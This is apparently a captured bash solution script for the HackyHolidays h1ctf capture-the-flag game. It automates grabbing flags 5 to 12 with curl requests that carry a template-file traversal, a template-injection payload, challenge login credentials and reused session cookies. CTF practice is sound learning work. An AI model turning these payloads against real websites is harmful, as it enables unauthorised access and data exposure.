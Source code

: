 ```bash
unzip -P "hahahaha" my_secure_files_not_for_you.zip &> /dev/null;
cat flag.txt | egrep "flag\{[a-zA-Z0-9\-]*}" -o | sed 's/^/Flag 5\: /';
rm flag.txt xxx.png my_secure_files_not_for_you.zip;

## Flag 6

curl -i -s -k -X $'GET' -H $'Host: hackyholidays.h1ctf.com' $'https://hackyholidays.h1ctf.com/my-diary/?template=secretadmin.phpadminadmin.phpsecretadmin.phpadminadmin.php.php.php' | egrep "flag\{[a-zA-Z0-9\-]*}" -o | sed 's/^/Flag 6\: /';

## Flag 7

curl -X POST -s -k -d "preview_markup=Hello+%7B%7Bflag%7D%7D&preview_data=%7B%22flag%22%3A%22%7B%7Btemplate:38dhs_admins_only_header.html%7D%7D%22%7D" "https://hackyholidays.h1ctf.com/hate-mail-generator/new/preview" | egrep "flag\{[a-zA-Z0-9\-]*}" -o | sed 's/^/Flag 7\: /';

## Flag 8

cookie=$(curl -i -s -k -X $'POST'     -H $'Host: hackyholidays.h1ctf.com3' -H $'Accept-Encoding: gzip, deflate' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 34'     --data-binary $'username=grinch&password=BahHumbug'     $'https://hackyholidays.h1ctf.com/forum/login' | egrep "token[^ ]*" -o);
curl -H "cookie: $cookie" 'https://hackyholidays.h1ctf.com/forum/3/2' -s -k | egrep 'flag\{[a-zA-Z0-9\-]*}' -o | sed 's/^/Flag 8\: /';

## Flag 9

curl 'https://hackyholidays.h1ctf.com/evil-quiz/admin' -H "Content-Type: application/x-www-form-urlencoded" -X POST -d "username=admin&password=S3creT_p4ssw0rd-%24" -s -k | egrep 'flag\{[a-zA-Z0-9\-]*}' -o  | sed 's/^/Flag 9\: /';

## Flag 10

cookie=$(curl -i -s -k -X $'POST'     -H $'Host: hackyholidays.h1ctf.com' -H $'Accept-Language: es-AR,es;q=0.8,en-US;q=0.5,en;q=0.3' -H $'Accept-Encoding: gzip, deflate' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 47' -H $'Upgrade-Insecure-Requests: 1'     --data-binary $'action=login&username=zonduupoc&password=123123'     $'https://hackyholidays.h1ctf.com/signup-manager/' | egrep "token[^ ]*" -o);
curl -H "cookie: $cookie" 'https://hackyholidays.h1ctf.com/signup-manager/' -s -k | egrep 'flag\{[a-zA-Z0-9\-]*}' -o | sed 's/^/Flag 10\: /';

## Flag 11

cookie=$(curl -i -s -k -X $'POST'     -H $'Host: hackyholidays.h1ctf.com' -H $'Accept-Language: es-AR,es;q=0.8,en-US;q=0.5,en;q=0.3' -H $'Accept-Encoding: gzip, deflate' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 40' -H $'Cookie: attackbox=d09d508e78f3975e0199a5e91dde9687' -H $'Upgrade-Insecure-Requests: 1'     -b $'attackbox=d09d508e78f3975e0199a5e91dde9687'     --data-binary $'username=grinchadmin&password=s4nt4sucks'     $'https://hackyholidays.h1ctf.com/attack-box/login' | egrep "attackbox[^ ]*" -o)
curl -H "cookie: $cookie" 'https://hackyholidays.h1ctf.com/attack-box' -s -k |  egrep 'flag\{[a-zA-Z0-9\-]*}' -o | sed 's/^/Flag 11\: /';

## flag 12
curl -H "cookie: $cookie" 'https://hackyholidays.h1ctf.com/attack-box/challenge-completed-a3c589ba2709' -s -k | egrep 'flag\{[a-zA-Z0-9\-]*}' -o | sed 's/^/Flag 12\: /';
```
